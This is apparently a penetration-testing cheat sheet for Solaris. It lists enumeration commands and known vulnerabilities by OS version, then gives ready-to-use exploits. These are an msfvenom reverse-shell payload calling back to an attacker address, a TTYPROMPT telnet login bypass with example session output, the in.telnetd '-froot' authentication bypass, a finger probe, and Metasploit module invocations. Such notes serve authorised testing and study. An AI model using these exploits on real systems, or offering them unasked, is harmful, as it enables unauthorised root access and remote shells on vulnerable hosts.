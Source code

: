 ```yaml
---
description: Information gathering and exploitation
---
```


# Solaris

## Enumeration

**View patches** 

`showrev -p` 

**Installed packages:** 

`Pkginfo` 

**Show IP interface:** 

`Ifconfig -a` 

**Process list:** 

`/usr/ucb/ps -auxww` 

## Common Solaris Vulnerabilities

### Solaris 7

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 8

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* no exploit - sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### solaris 9:

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 10

* fuser TELNET - authentication bypass through -f command - can be manually exploited 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root.

### Solaris 11

* fuser TELNET - authentication bypass through -f command - can be manually exploited

## **Exploits**

### **Solaris 8 finger**

`finger '1 2 3 4 5 6 7 8 9 0'@target`

### **Solaris exploits**

https://github.com/0xdea/exploits 

### **Msfvenom payload** 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf`

###  TTYPROMPT exploit

Solaris TTYPROMPT Security Vulnerability \(Telnet\) 

This vulnerability is very simple to exploit, since it does not require any code to be compiled by an attacker. The vulnerability only requires the attacker to simply define the environment variable TTYPROMPT to a 6-character string, inside telnet. Jonathan believes this overflows an integer inside login, which specifies whether the user has been authenticated \(just a guess\). 

Once connected to the remote host, you must type the username, followed by 64 " c"s, and a literal "\n". You will then be logged in as the user without any password authentication. This should work with any account except root \(unless remote root login is allowed\).  

**Example**:

```text
coma% telnet  
telnet> environ define TTYPROMPT abcdef  
telnet> o localhost  
SunOS 5.8  
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c\n  
Last login: whenever  
$ whoami bin  
```

**Metasploit:**

 Solaris in.telnetd TTYPROMPT Buffer Overflow

```text
msf > use exploit/solaris/telnet/ttyprompt
```

### **Telnet exploit \(fuser\)**

exploits the argument injection vulnerability in the telnet daemon \(in.telnetd\) of Solaris 10 and 11.  

**Command line:** 

```text
telnet -l "-fbin" target_address 
Or also 
telnet -l "-froot" 192.168.0.1 
```

**Metasploit:** 

msf &gt; use exploit/solaris/telnet/fuser 

